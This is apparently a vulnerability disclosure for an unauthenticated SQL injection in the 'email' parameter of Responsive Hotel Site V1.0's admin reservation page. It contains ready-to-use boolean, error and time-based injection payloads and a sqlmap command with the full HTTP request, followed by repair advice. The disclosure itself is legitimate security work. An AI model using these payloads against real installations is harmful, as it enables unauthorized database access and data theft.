 # Responsive Hotel Site V1.0 /admin/reservation.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Responsive Hotel Site

## Vendor Homepage

- [Responsive Hotel Site Using PHP With Source Code - Source Code & Projects](https://code-projects.org/responsive-hotel-site-using-php-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- AmengSec

## VERSION(S)

- V1.0

## Software Link

- [Responsive Hotel Site Using PHP With Source Code - Source Code & Projects](https://code-projects.org/responsive-hotel-site-using-php-source-code/)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the '/admin/reservation.php' file of the 'Responsive Hotel Site' project. The reason for this issue is that attackers inject malicious code from the parameter "email" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Responsive Hotel Site", discovered a critical SQL injection vulnerability in the "/admin/reservation.php" file. This vulnerability stems from insufficient user input validation of the 'email' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind
- boolean-based blind
- error-based

## Vulnerability location:

- 'email' parameter

## Payload:

```
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: title=Dr.&fname=123123&lname=123&email=123qqq@qe.com' AND 6492=(SELECT (CASE WHEN (6492=6492) THEN 6492 ELSE (SELECT 2250 UNION SELECT 2680) END))-- -&nation=NPLE&country=Austria&phone=123&troom=Superior Room&bed=Single&nroom=1&meal=Room only&cin=2025-10-08&cout=2025-10-18&code1=56106024&code=56106024&submit=%E6%8F%90%E4%BA%A4
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: title=Dr.&fname=123123&lname=123&email=123qqq@qe.com' AND (SELECT 6086 FROM(SELECT COUNT(*),CONCAT(0x71706b6271,(SELECT (ELT(6086=6086,1))),0x71716a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- yHPh&nation=NPLE&country=Austria&phone=123&troom=Superior Room&bed=Single&nroom=1&meal=Room only&cin=2025-10-08&cout=2025-10-18&code1=56106024&code=56106024&submit=%E6%8F%90%E4%BA%A4
    Vector: AND (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: title=Dr.&fname=123123&lname=123&email=123qqq@qe.com' AND (SELECT 8988 FROM (SELECT(SLEEP(5)))KcGR)-- qTnl&nation=NPLE&country=Austria&phone=123&troom=Superior Room&bed=Single&nroom=1&meal=Room only&cin=2025-10-08&cout=2025-10-18&code1=56106024&code=56106024&submit=%E6%8F%90%E4%BA%A4
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
```

![image-20251011193437619](assets/image-20251011193437619.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
POST /admin/reservation.php HTTP/1.1
Host: 10.151.169.235:8833
Content-Length: 230
Cache-Control: max-age=0
Origin: http://10.151.169.235:8833
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.151.169.235:8833/admin/reservation.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=cuq6v5v2e97ubeodt33s8k4ot9
Connection: keep-alive

title=Dr.&fname=123123&lname=123&email=123qqq@qe.com*&nation=NPLE&country=Austria&phone=123&troom=Superior+Room&bed=Single&nroom=1&meal=Room+only&cin=2025-10-08&cout=2025-10-18&code1=56106024&code=56106024&submit=%E6%8F%90%E4%BA%A4
```

# Attack results

![image-20251011193502695](assets/image-20251011193502695.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.